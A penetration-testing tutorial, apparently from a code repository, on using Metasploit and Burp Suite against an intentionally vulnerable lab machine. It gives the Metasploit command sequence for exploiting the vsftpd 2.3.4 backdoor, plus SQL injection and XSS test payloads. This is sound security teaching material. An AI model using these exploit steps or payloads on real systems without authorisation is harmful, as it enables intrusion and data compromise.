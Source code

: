 
# Metasploit: Penetration Testing Framework & Burp Suite: Web Application Security Testing

## Metasploit: Penetration Testing Framework

### Introduction to Metasploit
Metasploit is one of the most widely used penetration testing frameworks in cybersecurity. It provides a platform to identify, exploit, and validate vulnerabilities in systems. Metasploit includes a vast library of exploits, payloads, encoders, and tools for performing penetration tests against networked systems, applications, and services.

---

## Scenario 1: Exploiting a Vulnerable System Using Metasploit

**Objective**: Perform a penetration test using Metasploit to exploit a vulnerable system and gain access.

#### Steps:

1. **Identify Target System**:
   Ensure you have a target system that is intentionally vulnerable, such as a virtual machine running **Metasploitable**.

2. **Start Metasploit Framework**:
   ```bash
   msfconsole
   ```
   Launch Metasploit framework in the terminal.

3. **Search for Vulnerabilities**:
   ```bash
   search vsftpd
   ```
   Search for vulnerabilities related to the **vsftpd** service.

4. **Select an Exploit**:
   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   ```

5. **Configure Target Parameters**:
   ```bash
   set RHOSTS 192.168.1.100
   ```

6. **Select and Set Payload**:
   ```bash
   set PAYLOAD cmd/unix/interact
   ```

7. **Run the Exploit**:
   ```bash
   run
   ```

8. **Post-Exploitation**:
   Example: Listing processes
   ```bash
   ps
   ```

#### Deep Dive into Metasploit:
- **Modules**: Exploit modules take advantage of vulnerabilities, payload modules are executed after an exploit, and auxiliary modules perform scanning tasks.
- **Payloads**: Common payloads include reverse shells, Meterpreter, and command execution.

#### Outcome:
You gain access to a vulnerable system using a Metasploit exploit, showcasing how vulnerabilities can be exploited.

---

## Burp Suite: Web Application Security Testing

### Introduction to Burp Suite
Burp Suite is a powerful tool used for web application security testing. It provides functionality for scanning, intercepting traffic, manipulating web requests, and performing vulnerability testing.

---

## Scenario 2: Testing a Web Application for Vulnerabilities Using Burp Suite

**Objective**: Use Burp Suite to intercept and analyze web traffic, and test for vulnerabilities.

#### Steps:

1. **Set Up Burp Suite**:
   Configure your web browser to use Burp Suite as an HTTP/HTTPS proxy. In Burp Suite, navigate to **Proxy > Intercept**.

2. **Intercept and Modify Requests**:
   Review HTTP request details, including headers, parameters, and cookies.

3. **Fuzzing Web Parameters for SQL Injection**:
   Example SQL Injection payload:
   ```sql
   ' OR 1=1 -- 
   ```

4. **Automated Vulnerability Scanning**:
   Use **Burp Scanner** to automatically detect vulnerabilities.

5. **Cross-Site Scripting (XSS) Testing**:
   Inject JavaScript payload:
   ```html
   <script>alert('XSS')</script>
   ```

6. **Analyzing Responses**:
   Burp Suite displays detailed HTTP responses.

#### Deep Dive into Burp Suite:
- **Proxy Interception**: Modify requests before they reach the server.
- **Scanner**: Detect vulnerabilities like SQL injection, XSS, and CSRF.
- **Repeater**: Manually test requests multiple times with modified payloads.

#### Outcome:
You use Burp Suite to intercept and modify web requests, and test for common vulnerabilities like SQL injection and XSS.

---

## Combining Metasploit and Burp Suite for Web Exploitation

**Objective**: Use Burp Suite to identify vulnerabilities and Metasploit to exploit them.

#### Steps:

1. **Identify SQL Injection Vulnerability with Burp Suite**:
   Use **Proxy** and **Repeater** tools to confirm the vulnerability.

2. **Search for Exploits in Metasploit**:
   ```bash
   search sql
   ```

3. **Exploit the SQL Injection**:
   Set target and payload, then run the exploit in Metasploit.

4. **Post-Exploitation**:
   Use **Meterpreter** to gain shell access and explore the system.

#### Outcome:
You combine Burp Suite for vulnerability discovery and Metasploit for exploitation, demonstrating a complete web application penetration test.

---

## Conclusion
Metasploit and Burp Suite are essential tools for penetration testing and web application security. **Metasploit** is used to exploit vulnerabilities in systems, while **Burp Suite** allows for in-depth traffic analysis and vulnerability testing. Together, they provide a comprehensive approach to identifying and exploiting security flaws.
